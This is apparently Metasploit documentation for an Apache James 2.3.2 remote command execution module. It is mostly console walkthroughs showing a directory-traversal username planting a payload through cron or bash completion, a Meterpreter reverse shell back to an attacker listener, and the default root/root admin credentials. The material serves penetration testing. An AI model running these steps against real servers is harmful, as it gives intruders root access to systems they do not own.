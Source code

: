 ## Vulnerable Application  
  This module exploits a vulnerability that exists due to a lack of input validation when creating a user in Apache James 2.3.2. By creating a user with a directory traversal payload as the username, commands can be written to a given directory/file. Instructions for installing the vulnerable application for testing can be found here:  
  https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf  
  
## Verification Steps  
  **If using Cron exploitation method:** This method allows for automatic execution of the payload with no user interaction required and gives the attacker root privileges. It will also attempt to automatically cleanup the malicious user and the mail objects.</br></br>
  __1.__ Load the module:  
```
  msf5 > use exploit/linux/smtp/apache_james_exec  
```

  __2.__ Set remote and local options:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 1  
  target => 1  
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts  192.168.224.169  
  rhosts =>  192.168.224.169  

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167  
  lhost => 192.168.224.167  
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444  
  lport => 4444  
```

  __3.__ Set payload:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp  
  payload => linux/x64/meterpreter/reverse_tcp  
```

  __4.__ Check version and run exploit:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > check  
  [*] 192.168.224.164:25 - The target appears to be vulnerable.  
  msf5 exploit(linux/smtp/apache_james_exec) > exploit  
  
  [*] Started reverse TCP handler on 192.168.224.167:4444
  [+] 192.168.224.169:25 - Waiting 60 seconds for cron to execute payload
  [*] Sending stage (3021284 bytes) to 192.168.224.169
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.169:38694) at 2020-02-02 16:30:02 -0800
  [*] 192.168.224.169:25 - Command Stager progress - 100.00% done (812/812 bytes)

  meterpreter >
```  
  
  ---------------------------------------------------------------------------------------------  
**If using Bash Completion:** This method may be preferable if targeting a linux operating system such as some versions of Ubuntu that fails to run the cron method for exploitation. This exploitation method will leave an Apache James mail object artifact in the /etc/bash_completion.d directory and the malicious user account.</br></br>
  
  __1.__ Load the module:  
```
  msf5 > use exploit/linux/smtp/apache_james_exec  
```

  __2.__ Set remote and local options:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 0  
  target => 0  
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts 192.168.224.164  
  rhosts => 192.168.224.164

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167  
  lhost => 192.168.224.167  
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444  
  lport => 4444  
```

  __3.__ Set payload:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp  
  payload => linux/x64/meterpreter/reverse_tcp  
```

  __4.__ Check version and run exploit:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > check  
  [*] 192.168.224.164:25 - The target appears to be vulnerable.  
  msf5 exploit(linux/smtp/apache_james_exec) > exploit  

  [*] 192.168.224.164:25 - Command Stager progress - 100.00% done (812/812 bytes)  
```

  __5.__ Set up and run listener (Can be done before running exploit):  
```
  msf5 exploit(linux/smtp/apache_james_exec) > use exploit/multi/handler  
  msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp  
  payload => linux/x64/meterpreter/reverse_tcp  
  msf5 exploit(multi/handler) > set lport 4444  
  lport => 4444  
  msf5 exploit(multi/handler) > set lhost 192.168.224.167  
  lhost => 192.168.224.167    

  msf5 exploit(multi/handler) > run  

  [*] Started reverse TCP handler on 192.168.224.167:4444  
  [*] Sending stage (3021284 bytes) to 192.168.224.164  
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.164:34752) at 2020-01-18 18:25:14 -0800  

  meterpreter >  
```

## Options  
  **USERNAME:**  The administrator username for Apache James 2.3.2 remote administration tool. By default this is 'root'.  
  **PASSWORD:**  The administrator password for Apache James 2.3.2 remote administration tool. By default this is 'root'.  
  **ADMINPORT:**  The port for Apache James 2.3.2 remote administration tool. By default this is '4555'.  
  **RHOSTS:**  The IP address of the vulnerable server.  
  **RPORT:**  The port number of the SMTP service.  
  **POP3PORT** The port for the POP3 Apache James Service.  By default this '110'.  

## Targets
```
  Id  Name 
  --  ----
  0   Bash Completion  
  1   Cron  
```

## References  
  1. <https://www.exploit-db.com/exploits/35513>  
  2. <https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf>
